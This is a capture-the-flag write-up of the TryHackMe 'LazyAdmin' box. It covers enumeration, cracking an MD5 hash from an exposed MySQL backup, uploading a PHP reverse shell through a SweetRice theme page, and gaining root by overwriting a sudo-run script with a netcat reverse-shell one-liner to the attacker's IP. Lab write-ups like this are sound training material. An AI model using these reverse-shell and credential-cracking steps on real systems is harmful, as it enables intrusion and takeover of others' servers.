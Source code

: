# LazyAdmin

Description: N/A

After booting up my Kali Linux virtual machine and connecting to THM using OpenVPN, I started attacking the box. First, I started with scanning the server for any open ports of potential vulnerabilities.

## Enumeration/Scanning
`Server IPv4: 10.10.120.174`

I created an nmap directory where I placed the nmap scan that I ran on the host.
* `nmap -sV -sC -O -v 10.10.120.174 | tee nmap/initial`

**I discovered 2 open ports:**
* Port 22/tcp
	* Version: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
* Port 80/tcp
	* Version: Apache httpd 2.4.18 ((Ubuntu))

I was unable to find any other useful information using nmap. Now that I know the server is hosting a website, I decided to pursue this as a possibility to discover a vulnerability. All that I could see is the default Apache webserver index page as shown below:
* ![Pasted image 20230404224447](https://user-images.githubusercontent.com/28494055/229980819-f2d5614b-c47a-466b-afd6-d8abcc35aec6.png)

Knowing the server is hosting a website, I know I could use a directory buster tool to find any potential directories that I could explore. For this scenario, I used GoBuster.
* `gobuster dir -u http://10.10.120.174 -w /usr/share/dirb/wordlists/common.txt -o gobuster/initial`
* ![Pasted image 20230404225030](https://user-images.githubusercontent.com/28494055/229980800-59b44d72-b367-4ff6-9853-826aa15c53f6.png)

We can see that there is a content page, and the index.html page we original looked at. Checking out the content page, I found that the server is using SweetRice, a Content Management System.
* ![Pasted image 20230404225400](https://user-images.githubusercontent.com/28494055/229980734-6885650b-a297-46c0-b918-37e96fccaae1.png)

I did not find anything else that could be useful, so I decided to continue the enumeration process with gobuster and scanned the content directory for any additional information I could use.
* `gobuster dir -u http://10.10.120.174/content -w /usr/share/dirb/wordlists/common.txt -o gobuster/content`

I found multiple additional artifacts I could investigate. 
* ![Pasted image 20230404225552](https://user-images.githubusercontent.com/28494055/229980670-c9eb6ea2-8a51-4df0-bcd2-a001cddab3dc.png)

After looking around the themes directory, I found that the server is using php. This can be useful later. I did not find anything else that could be useful here. Next on the list is /as. I discovered that this is a login page to sweet rice, something I may be able to exploit later. /Attachment was empty, /images did not provide anthing useful, then I came up to /inc. Right away I can see that there are 4 folders, cache/, font/, lang/, and mysql_backup/. 

Great, now I know that the server is using mysql as a database. Checking this folder I found a bakup copy. Before continuing, I checked the remaining directories for any additional information that I could use and found nothing.
* ![Pasted image 20230404230322](https://user-images.githubusercontent.com/28494055/229980643-d76a83ad-d4f6-4391-9d7c-b12c3fe27cbd.png)

I downloaded the mysql bakup file and began investigating its contents. I found that there are multiple potential usernames within the file, and a hash. I used grep to highlight the keywords to make it easier on the reader.
* ![Pasted image 20230404231002](https://user-images.githubusercontent.com/28494055/229980625-a13a6f9b-9988-4f52-bf4d-0a02d8700288.png)

The first thing I thought of in regards to the hash is I could possibly crack it. I will be using John to crack the hash.
* `mkdir john`
* `echo "42f749ade7f9e195bf475f37a44cafcb" | tee john/hash.txt`

I used hashid to discover the type of hash we are dealing with.
* `hashid -emj john/hash.txt`
* I was able to determine that the has was created using an MD5 algorithm as shown: 
* ![Pasted image 20230404232427](https://user-images.githubusercontent.com/28494055/229980607-280db0a2-2b4f-4f54-9a84-f054837d6625.png)

Now that I know the type of hash it is, I can use john to crack the password.
* `john --format=Raw-MD5 john/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
* ![Pasted image 20230404233737](https://user-images.githubusercontent.com/28494055/229980582-c2af2d60-4bc9-49e2-b69c-2291f8e8ffa8.png)

**I cracked the hash and got the password, "Password123"**

I then attempted to login using this password and the different usernames I discovered earlier, and logged in using manager.

## Exploitation
After logging in, I investigated the admin page looking for anything that could help me with getting access to the server. The first thing I found that may help me is the theme page. In this page, I'm able to upload a file to the server, and it would appear in the /content/theme directory. I may be able to run a reverse shell here using PHP, which we discovered the server to be using.

For this scenario, I will be using [pentestmonkey's php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell).

I used nano to create a php file and placed the reverse shell script inside of it. I then edited the script's default IP address and port number. When the script is run on the server, it will attempt a connection to my IP address on the port I specified. Before placing the script within the theme upload page, it states that I need to zip it. After zipping the file I placed it in my /tmp directory, and then I uploaded it to the website. I started a netcat listening session on port 1127 and then executed the reverseshell on the /theme page of the website.

I'm in!
* ![Pasted image 20230404235109](https://user-images.githubusercontent.com/28494055/229980553-f12be249-09c4-4ffb-bd0b-8a81d57bce75.png)

The first thing I did after receiving access is look for the user flag. I found the home directory of itguy, where the user.txt file containing the flag lies.
* ![Pasted image 20230404235318](https://user-images.githubusercontent.com/28494055/229980534-f258ea57-be4b-42c5-8d35-bc45f2687ad6.png)

## Privilege Escalation
Next, I need to figure out how to privilege escalate to root to find the last flag needed to pwn the box.

The first thing you usually do is check the sudoers file for any possible users or files I could exploit.
* ![Pasted image 20230405000050](https://user-images.githubusercontent.com/28494055/229980484-efe5f6ee-952a-4109-9e06-c76035418573.png)

You can imidiately see that there is a script running on perl with sudo privileges, that does not require a sudo password to run. backup.pl is running a shell script called copy.sh as seen below:
* ![Pasted image 20230405000207](https://user-images.githubusercontent.com/28494055/229980462-24d82ccd-b1b2-4b62-b37a-25fd555d34f1.png)
* ![Pasted image 20230405000235](https://user-images.githubusercontent.com/28494055/229980442-5741b5b8-bf96-4a2f-9bab-1ca84b1b5a3f.png)

You can tell just by looking at it that it is a reverse shell, because of the netcat command sending out a connection to IP 192.168.0.190 on port 5554. If I can edit this to use my own address, I could potentially reverse shell onto the system as root. I tried using nano, vi, vim, but was unable to edit the file. The next thing I did was echo the line with my own address and port, and outputted it into the copy.sh script.
* `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.57.33 1128 >/tmp/f" > /etc/copy.sh`

I then started netcat on another terminal listening on port 1128. I ran the backup.pl script, allowing me to connect to the server as root.
* `sudo perl /home/itguy/backup.pl`

## Post-exploitation
I then navigated to root's home and found the last flag. Pwned!
* ![Pasted image 20230405001019](https://user-images.githubusercontent.com/28494055/229980090-b2e9e7d7-b21a-494e-9529-8fcfdcb229a6.png)
